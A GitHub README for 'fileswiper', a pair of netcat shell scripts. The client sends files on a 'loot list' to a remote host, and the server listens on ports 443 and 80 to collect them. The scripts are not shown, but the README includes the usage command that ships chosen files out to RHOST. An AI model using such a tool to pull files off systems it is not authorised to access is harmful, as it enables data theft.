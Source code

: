 # fileswiper

__Description__:

Automation script to make sending files via netcat faster and more convenient.

Client Script:
Will send all files on this machine that are in the loot list in the program.
Any additional files you want to select can also be entered.

Server Script:
Will open a listener on ports 443 and 80 for each file that the client script sends.


__Usage__:

Server script: `./server.sh`

Client script: `./client.sh RHOST [additional files or directories]`


__Screenshots__:

Server

   <img src="Images/server1.jpg" width = "300">
  
Client

   <img src="Images/client.png" width = "500">

Results
   <img src="Images/image.png" width = "300">
